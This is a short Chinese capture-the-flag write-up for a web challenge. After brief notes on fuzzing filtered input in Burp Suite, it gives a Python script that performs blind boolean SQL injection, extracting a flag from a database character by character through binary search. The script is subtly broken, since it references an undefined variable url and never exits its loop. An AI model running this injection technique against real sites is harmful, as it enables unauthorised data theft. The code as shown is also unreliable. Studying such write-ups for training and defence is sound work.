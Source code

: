 ![image-20240602225055800](/docs/img/image-20240602225055800.png)

![image-20240602225351057](/docs/img/image-20240602225351057.png)

可以猜想有过滤，在 Burpsuite 中爆破：

![img](https://img2020.cnblogs.com/blog/1937992/202009/1937992-20200911094122880-1747349205.png)

长度为 472 的是没有被过滤掉的，Python 程序如下：

```python
import requests

URL = "http://abcb7ed0-472f-4763-8251-cc01fb48192b.node5.buuoj.cn:81/index.php"

ans = ""
i = 0

while True:
    i = i + 1
    left = 32
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id": payload}
        res = requests.post(url=url, data=data)
        if "Hello" in res.text:
            left = mid + 1
        else:
            right = mid
    if left != 32:
        ans += chr(left)
        print(ans)
```